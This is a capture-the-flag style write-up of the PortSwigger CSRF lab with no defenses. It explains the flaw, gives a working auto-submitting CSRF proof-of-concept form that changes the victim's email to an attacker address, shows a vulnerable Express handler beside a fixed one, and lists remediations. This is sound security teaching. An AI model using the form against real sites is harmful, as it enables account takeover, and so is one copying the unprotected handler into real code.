

# Lab 01: CSRF vulnerability with no defenses

> **Topic**: CSRF Vulnerabilities
> **Lab Number**: 01
> **Platform**: PortSwigger Web Security Academy

## Category
Cross-Site Request Forgery (CSRF)

## Vulnerability Summary
The application is vulnerable to Cross-Site Request Forgery (CSRF) attacks because it processes sensitive state-changing requests (email change) without implementing any CSRF protections. The vulnerable endpoint `my-account/change-email` accepts POST requests with the new email address parameter and does not verify whether the request originated from a legitimate user action or was forged by a malicious third-party site. No CSRF tokens, SameSite cookie attributes, or origin validation are in place.

## Attack Methodology
1. **Identify the CSRF Attack Surface**: Discovered the `change-email` endpoint in the authenticated area by capturing traffic through Burp Suite Proxy while changing the email address on the victim's account page.

2. **Analyze the Vulnerable Request**: The application uses session cookies for authentication but doesn't implement CSRF tokens:

   ```
   POST /my-account/change-email HTTP/2
   Host: 0aa40047040208c781cd7054006700f7.web-security-academy.net
   Cookie: session=...
   Content-Type: application/x-www-form-urlencoded
   
   email=attacker%40attacker.com
   ```

3. **Craft the CSRF Exploit**: Using Burp Suite's "Generate CSRF PoC" feature, created an HTML file containing a form that auto-submits when loaded:

   

   ```html
   <html>
   <body>
   <form action="https://0aa40047040208c781cd7054006700f7.web-security-academy.net/my-account/change-email" method="POST">
     <input type="hidden" name="email" value="attacker&#64;attacker&#46;com" />
     <input type="submit" value="Submit request" />
   </form>
   <script>
     document.forms[0].submit();
   </script>
   </body>
   </html>
   ```

4. **Host the Exploit**: Uploaded the malicious HTML to the PortSwigger Exploit Server under `/exploit`.

5. **Deliver to Victim**: Sent the exploit URL to the victim user. When the victim visited the link, the form automatically submitted, changing their email address to the attacker's email without their knowledge or consent.

6. **Lab Verification**: Successfully confirmed the victim's email was changed to the attacker-controlled email address:

   

## Technical Root Cause
The application failed to implement any CSRF mitigation strategies:

1. **No CSRF Tokens**: The vulnerable form and endpoint lack anti-CSRF tokens that would bind the request to the legitimate user session.

2. **No SameSite Cookie Attribute**: The session cookie is set without the `SameSite` attribute, allowing cross-site requests to include the cookie.

3. **No Origin/Referer Validation**: The application doesn't validate the `Origin` or `Referer` headers to ensure requests originate from trusted domains.

4. **State-Changing GET Alternative**: If the email change were accessible via GET parameters, the attack would be even simpler (``), though this lab specifically uses POST.

Example vulnerable code pattern:
```javascript
// ❌ Vulnerable - no CSRF protection
app.post('/my-account/change-email', async (req, res) => {
    if (req.session) {
        await db.updateEmail(req.session.user.id, req.body.email);
        res.redirect('/my-account');
    }
});

// ✅ Secure - with CSRF token validation
app.post('/my-account/change-email', async (req, res) => {
    if (!req.session || !csrf.verify(req.body._csrf, req.session.csrfToken)) {
        return res.status(403).send('Invalid CSRF token');
    }
    await db.updateEmail(req.session.user.id, req.body.email);
    res.redirect('/my-account');
});
```

## Impact
A CSRF attack allows an attacker to:
- Perform actions on behalf of authenticated victims without their consent
- Change critical account information (email, password, payment details)
- Execute financial transactions if the application processes payments
- Modify user preferences and settings
- Perform privilege escalation if the vulnerable endpoint allows it

In this lab's case, an attacker can change the victim's email address, potentially leading to:
- **Account takeover**: Attacker could request password reset to the new email
- **Social engineering**: Using the victim's modified account for further attacks
- **Data integrity loss**: Unauthorized changes to user data

This is classified as **Medium to High** severity depending on the sensitivity of the affected action.

## Remediation
1. **Implement CSRF Tokens**: Generate unique, unpredictable tokens per user session and validate them on all state-changing requests

2. **Set SameSite Cookie Attribute**: Use `SameSite=Lax` or `SameSite=Strict` on session cookies to prevent cross-site requests from including credentials

3. **Validate Origin/Referer Headers**: Verify requests originate from the application's own domain

4. **Require Re-authentication for Sensitive Actions**: Ask for the user's password or a second factor before critical changes

5. **Use Custom HTTP Headers**: For AJAX requests, use headers that cannot be set cross-origin (though this doesn't protect traditional form submissions)

6. **Implement the Synchronizer Token Pattern**:
   ```html
   <!-- Server renders CSRF token into the form -->
   <form action="/my-account/change-email" method="POST">
     <input type="hidden" name="_csrf" value="a1b2c3d4e5f6...">
     <input type="email" name="email" />
     <button type="submit">Change Email</button>
   </form>
   ```

## Tools Used
- Burp Suite Professional (Proxy, Repeater, CSRF PoC Generator)
- Chromium
- PortSwigger Exploit Server

---

*Writeup by vibhxr*
